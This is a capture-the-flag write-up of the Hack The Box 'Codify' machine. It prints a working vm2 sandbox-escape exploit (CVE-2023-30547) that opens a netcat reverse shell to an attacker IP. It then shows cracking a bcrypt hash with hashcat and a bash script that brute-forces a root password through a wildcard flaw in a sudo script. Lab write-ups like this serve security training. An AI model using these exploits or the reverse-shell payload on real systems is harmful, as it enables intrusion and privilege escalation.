

# Codify Writeup
<figure></figure>

## Target IP Address: 10.10.11.239

Nmap Scan:

```
┌─[elliot@elliot-vmwarevirtualplatform]─[~/Desktop/htb/codify]
└──╼ $ nmap -sC -sV -vv 10.10.11.239
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN+/g3FqMmVlkT3XCSMH/JtvGJDW3+PBxqJ+pURQey6GMjs7abbrEOCcVugczanWj1WNU5jsaYzlkCEZHlsHLvk=
|   256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIm6HJTYy2teiiP6uZoSCHhsWHN+z3SVL/21fy6cZWZi
80/tcp   open  http    syn-ack Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    syn-ack Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration

After scannig we get the host name `codify.htb`

Adding the IP and URL to `/etc/hosts`

<figure></figure>

After a little bit of enumeration I found that the the application uses `vm2` as the sandbox module.
Found an exploit which escapes the sandbox environment and will help us getting the rce `CVE-2023-30547`.

After reading about the exploit. This code helped me get the reverse shell to have access to the user.

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.xx.xx 4444 >/tmp/f'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));
```

<figure></figure>

## User Flag

Found out the hash for `joshua` in `/var/www/contact` in `tickets.db`

<figure></figure>

As we can identify that the format of the hash is `bcrypt`.

We use Hashcat to decypt the hash.

```
┌─[elliot@elliot-vmwarevirtualplatform]─[~/Desktop/htb/codify]
└──╼ $hashcat -m 3200 -a 0 hash.txt ~/Desktop/assets/rockyou.txt
```

Logging in as Joshua using the same credentials,

```
┌─[elliot@elliot-vmwarevirtualplatform]─[~/Desktop/htb/codify]
└──╼ $ssh joshua@codify.htb
joshua@codify.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Dec 14 06:32:42 AM UTC 2023

  System load:                      0.0078125
  Usage of /:                       69.5% of 6.50GB
  Memory usage:                     19%
  Swap usage:                       0%
  Processes:                        233
  IPv4 address for eth0:            10.10.11.239
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:334a


Expanded Security Maintenance for Applications is not enabled.
To check for new updates run: sudo apt update

joshua@codify:~$
```

Found the user flag.
<figure></figure>


## Root Flag

Checking sudo permissions to reveal what scripts can be run as root:

```
joshua@codify:~$ sudo -l
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

Analyzing `/opt/scripts/mysql-backup.sh`

```
joshua@codify:/opt/scripts$ cat mysql-backup.sh 
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

The password checking in the script is ultimately not a safe way to check for passwords. If we enter '*' it will give some wierd output, it says 'Password Confirmed' so we need to bruteforce the password.

I wrote a bash script for the password bruteforce.

```
#!/bin/bash

all=$(echo {a..z} {A..Z} {0..9})
password=""
found=false

while [ "$found" == false ]; do
    for character in $all; do
        command="echo '${password}${character}*' | sudo /opt/scripts/mysql-backup.sh"
        output=$(eval $command)
        
        if [[ "$output" == *"Password confirmed!"* ]]; then
            password="${password}${character}"
            echo $password
            break
        fi
    done || found=true
done
```
On executing the script. We find the password for root.
```
joshua@codify:/tmp$ su root
Password: 
root@codify:/tmp# 
```

Thank you!! Happy Hacking :D